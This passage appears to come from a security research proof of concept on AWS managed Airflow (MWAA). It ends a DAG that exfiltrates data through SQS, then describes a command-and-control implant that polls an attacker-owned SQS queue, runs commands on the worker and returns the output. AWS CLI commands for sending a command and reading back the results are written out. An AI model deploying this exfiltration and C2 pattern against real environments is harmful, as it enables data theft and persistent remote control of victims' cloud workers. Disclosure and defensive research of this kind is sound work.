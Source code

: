 ```
            MessageAttributes={
                'Author': {
                    'DataType': 'String',
                    'StringValue': 'MaliciousDAG'
                }
            }
        )
        
        print(f"Successfully sent message. Message ID: {response['MessageId']}")
        print("Exfiltration successful.")

    except Exception as e:
        print(f"An error occurred during exfiltration: {e}")
        # In a real scenario, an attacker might add more robust error handling.
        raise

with DAG(
    dag_id="poc_mwaa_sqs_exfiltration",
    start_date=datetime(2023, 1, 1),
    schedule_interval=None,
    catchup=False,
    tags=["security", "poc"],
) as dag:
    exfiltrate_task = PythonOperator(
        task_id="exfiltrate_sensitive_data",
        python_callable=exfiltrate_data_via_sqs,
    )

```


## **Proof of Concept (POC) DAG for Command and Control (C2)**

The following DAG establishes a persistent implant that polls an attacker's SQS queue for commands, executes them within the MWAA worker environment, and returns the results to another attacker queue.

### **Attacker Setup and Interaction**

1. **Create Queues:** The attacker creates two SQS queues in their own AWS account:  
   * airflow-celery-c2-commands (for sending commands to the implant).  
   * airflow-celery-c2-results (for receiving output from the implant).  
2. **Deploy DAG:** The attacker uploads the implant DAG to the victim's MWAA environment.  
3. **Send Command:** The attacker uses the AWS CLI to send a command to the c2-commands queue.  
```
aws sqs send-message \
    --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/airflow-celery-c2-commands \
    --message-body "ls -la /"
```

4. **Receive Result:** After the DAG runs, the attacker polls the c2-results queue to get the output.  
```
aws sqs receive-message \
    --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/airflow-celery-c2-results
```
